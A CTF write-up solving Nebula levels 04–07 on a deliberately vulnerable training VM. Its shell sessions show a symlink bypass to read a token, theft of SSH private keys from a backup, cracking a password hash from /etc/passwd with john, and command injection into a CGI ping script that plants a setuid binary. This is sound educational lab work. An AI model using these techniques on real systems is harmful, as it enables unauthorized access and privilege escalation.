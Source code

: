 Title: Exploit Education - Nebula Part 2
Date: 2020-09-06
Modified: 2020-09-06
Category: Learning
Tags: ctf, exploit, nebula

## [Level 04](https://exploit.education/nebula/level-04/)

#### Solution
Source code shows, that verification happens only for `token` name. Let's create symbolic link to file and try to read its content. After reading it, let's use it as password.

#### Result
```bash
level04@nebula:/home/flag04$ ls -la
total 13
drwxr-x--- 2 flag04 level04   93 2011-11-20 21:52 .
drwxr-xr-x 1 root   root     160 2012-08-27 07:18 ..
-rw-r--r-- 1 flag04 flag04   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag04 flag04  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag04 level04 7428 2011-11-20 21:52 flag04
-rw-r--r-- 1 flag04 flag04   675 2011-05-18 02:54 .profile
-rw------- 1 flag04 flag04    37 2011-11-20 21:52 token
level04@nebula:/home/flag04$ ./flag04 token
You may not access 'token'
level04@nebula:/home/flag04$ ln -s ~flag04/token /tmp/not
level04@nebula:/home/flag04$ ./flag04 /tmp/not
06508b5e-8909-4f38-b630-fdb148a848a2
level04@nebula:~$ su flag04
Password:  # use token here
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## [Level 05](https://exploit.education/nebula/level-05/)

#### Solution
We're looking for weak permissions. It seems that `.backup` directory contains copy of ssh keys, which can be used.

#### Result
```bash
level05@nebula:~$ cd ~flag05
level05@nebula:/home/flag05$ ls -ahtl
total 9.0K
drwxr-x--- 1 flag05 level05   80 2020-09-05 19:18 .
-rw------- 1 flag05 flag05    20 2020-09-05 19:18 .bash_history
drwx------ 2 flag05 flag05    60 2020-09-05 19:17 .cache
drwxr-xr-x 1 root   root     200 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3.3K 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
level05@nebula:/home/flag05$ cd
level05@nebula:~$ ls ~flag05/.backup
backup-19072011.tgz
level05@nebula:~$ cp ~flag05/.backup/backup-19072011.tgz .
level05@nebula:~$ tar -xvf backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
level05@nebula:~$ ssh flag05@localhost
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```

## [Level 06](https://exploit.education/nebula/level-06/)

#### Solution
The `flag06` came from a legacy unix system. It probably means, that password could be stored inside `/etc/passwd`. After retrieving password, I had to search for an answer, how to crack it. `john` helped with that.

#### Result
```bash
level06@nebula:~$ grep flag06 /etc/passwd
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
➜  ~ john --show pass
?:hello

1 password hash cracked, 0 left
level06@nebula:~$ su flag06
Password:  # use found password
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## [Level 07](https://exploit.education/nebula/level-07/)

#### Solution
User `flag07` is running CGI server, which is pinging provided host. Host is an parameter to URL. It means, we should be able to modify URL this way, to retrieve correct information.

#### Result
I struggled with that for a while.
```bash
level07@nebula:/home/flag07$ wget localhost:7007/index.cgi?Host=;getflag
--2020-09-05 20:31:46--  http://localhost:7007/index.cgi?Host=
Resolving localhost... 127.0.0.1
Connecting to localhost|127.0.0.1|:7007... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
index.cgi?Host=: Permission denied

Cannot write to `index.cgi?Host=' (Permission denied).
getflag is executing on a non-flag account, this doesn't count
```
I wasn't sure, why it is not revealing flag. Finally, I searched through an internet for similar solution and found what's my mistake. I was using `;` instead of `%3b` which is encoded semicolon. Instead of sending my payload to website, I was sending `Host=localhost` and later, I was running separate command, under my username.

Rookie error.


#### Alternative solution
After retrieving `getflag` I thought about another attempt to exploit a server. For this purpose, I used `exploit.c` prepared for another level, and I sent this query:
```bash
level07@nebula:/tmp$ cat > exploitable.sh << EOF
cp /tmp/exploit /home/flag07/exploit
chmod u+s /home/flag07/exploit
EOF
level07@nebula:/tmp$ wget localhost:7007/index.cgi?Host=%3b/tmp/exploitable.sh
level07@nebula:/tmp$ cd ~flag07
level07@nebula:/home/flag07$ ls
exploit  index.cgi  thttpd.conf
level07@nebula:/home/flag07$ ./exploit
flag07@nebula:/home/flag07$ getflag
You have successfully executed getflag on a target account
```
